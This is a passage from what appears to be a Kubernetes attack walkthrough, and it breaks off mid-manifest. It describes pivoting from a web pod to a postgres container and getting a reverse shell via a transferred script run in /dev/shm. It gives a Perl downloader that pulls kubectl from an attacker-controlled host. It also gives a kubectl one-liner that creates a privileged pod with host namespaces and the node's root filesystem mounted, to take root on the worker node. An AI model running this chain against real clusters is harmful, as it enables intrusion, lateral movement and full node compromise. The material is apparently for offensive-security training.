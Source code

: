 To get revshell on the target through your foothold, you need to transfer the `psqlrev.py` file over to the web pod and execute it in `/dev/shm`.

----
## Step 6 
<a id="item-six"></a>
Now that we have laterally pivoted to the postgres-backend-server that does not have a read-only mount we are going to pull `kubectl` command 
with perl from or attack host or from the interweb. We are using perl as our interpreter as python3 is not installed on postgres container. With diverse workloads we need many different tools.

```perl
#!/usr/bin/perl use strict;

use warnings;
use HTTP::Tiny;

my $url = 'http://<attacker ip>:45671/kubectl';
my $file = 'kubectl';
my $response = HTTP::Tiny->new->get($url);

if ($response->{success}) {
    open my $fh, '>', $file or die "Cannot open $file: $!";
    print $fh $response->{content}; close $fh;
 } else {
    die "Failed to get $url\n";
}
```

Once we can have kubectl installed and notice we can create pods, we will create an attack pod to gain root on Kubernetes worker node.

## Setup a `bad` pod from Bishopfox in a oneliner
```sh
kubectl run everything-allowed-exec-pod --image=alpine --overrides='
{
  "apiVersion": "v1",
  "spec": {
    "hostNetwork": true,
    "hostPID": true,
    "hostIPC": true,
    "containers": [
      {
        "name": "everything-allowed-pod",
        "image": "alpine",
        "securityContext": {
          "privileged": true
        },
        "volumeMounts": [
          {
            "mountPath": "/host",
            "name": "noderoot"
          }
        ],
        "command": [ "/bin/sh", "-c", "--" ],
        "args": [ "while true; do sleep 30; done;" ]
      }
    ],
    "volumes": [
      {
        "name": "noderoot",
        "hostPath": {
          "path": "/"
        }
```